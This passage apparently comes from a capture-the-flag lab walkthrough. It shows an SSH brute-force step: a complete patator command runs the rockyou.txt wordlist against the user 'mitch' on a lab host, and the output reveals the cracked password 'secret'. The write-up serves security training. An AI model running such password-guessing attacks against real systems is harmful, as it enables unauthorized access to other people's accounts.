 ## SSH Brute-Forcing

`ForMitch.txt` hinted that Mitch set a weak, easily-crackable password. Brute force it with `rockyou.txt`.

```bash
$ patator ssh_login host=10.10.162.248 port=2222 user=mitch password=FILE0 0=/usr/share/wordlists/rockyou.txt -x ignore:mesg='Authentication failed.'                                                                                130 ⨯
21:02:46 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.7 at 2022-01-19 21:02 UTC
21:02:48 patator    INFO -
21:02:48 patator    INFO - code  size    time | candidate                          |   num | mesg
21:02:48 patator    INFO - -----------------------------------------------------------------------------
21:02:57 patator    INFO - 0     39     0.179 | secret                             |    42 | SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8
```
